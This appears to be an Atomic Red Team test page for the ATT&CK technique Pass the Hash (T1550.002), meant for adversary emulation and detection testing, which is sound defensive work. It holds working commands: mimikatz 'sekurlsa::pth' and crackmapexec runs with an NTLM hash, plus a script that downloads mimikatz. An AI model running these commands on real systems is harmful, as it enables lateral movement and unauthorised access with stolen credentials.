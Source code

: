 # T1550.002 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/002)
<blockquote>Adversaries may “pass the hash” using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash.

When performing PtH, valid password hashes for the account being used are captured using a [Credential Access](https://attack.mitre.org/tactics/TA0006) technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Adversaries may also use stolen password hashes to "overpass the hash." Similar to PtH, this involves using a password hash to authenticate as a user but also uses the password hash to create a valid Kerberos ticket. This ticket can then be used to perform [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003) attacks.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


**auto_generated_guid:** ec23cef9-27d9-46e4-a68d-6f75f7b86908





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username | String | Administrator|
| ntlm | ntlm hash | String | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | String | %userdnsdomain%|
| mimikatz_path | mimikatz windows executable | Path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
$mimikatz_relative_uri = Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/latest" -UseBasicParsing | Select-Object -ExpandProperty Links | Where-Object -Property href -Like "*/mimikatz_trunk.zip" | Select-Object -ExpandProperty href
Invoke-WebRequest "https://github.com$mimikatz_relative_uri" -UseBasicParsing -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```




<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows


**auto_generated_guid:** eb05b028-16c8-4ad8-adea-6f5b219da9a9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username | String | Administrator|
| crackmapexec_exe | crackmapexec windows executable | Path | C:&#92;CrackMapExecWin&#92;crackmapexec.exe|
| command | command to execute | String | whoami|
| ntlm | command | String | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | String | %userdnsdomain%|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{crackmapexec_exe} #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```




#### Dependencies:  Run with `powershell`!
##### Description: CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
##### Check Prereq Commands:
```powershell
if(Test-Path #{crackmapexec_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```




<br/>
